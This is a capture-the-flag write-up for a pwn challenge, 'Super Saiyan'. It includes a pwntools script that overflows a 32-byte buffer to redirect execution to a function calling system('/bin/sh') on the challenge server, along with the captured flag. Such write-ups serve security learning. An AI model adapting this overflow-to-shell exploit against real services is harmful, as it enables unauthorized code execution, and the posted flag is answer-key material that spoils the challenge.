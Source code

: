 # Super Saiyan

**Description**  

Only the Legendary Saiyan can unlock the ultimate power.

A new student’s training hides a critical vulnerability. Exploit the flaw, hijack their abilities, and unleash the true strength of the Legendary Saiyan.

Prove you have what it takes to access the ultimate power!

**nc pwn.citeflag.online 28621**

![super saiyen](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExM3J4eTBsNXpnNWdmcG1kNTlpa3NqOXVzajloMW1kajBhNGRtM2l3dSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/GRSnxyhJnPsaQy9YLn/giphy.gif)

**🎯 Flag Format**: `CITEFLAG{...}`  

---

**👤 Author:** *Reo-0x*

----

### Disassembly (GDB)


![](../../assets/func.png)

It calls puts to display a message
Then calls system("/bin/sh") — a shell spawner


so craft a python script and buffer it .


```python
#!/usr/bin/env python3
from pwn import *

HOST = "pwn.citeflag.online"
PORT = 28621

context.log_level = 'debug'

conn = remote(HOST, PORT)

legendary_saiyan_addr = 0x401244

payload = b"A" * 32
payload += p64(legendary_saiyan_addr)

conn.recvuntil(b"Enter hero name for new student: ")
conn.sendline(payload)

conn.interactive()
```


![](../../assets/supersayain.png)

flag : CITEFLAG{L3g3nd4ry_S41y4n_M3m0ry_0v3rfl0w}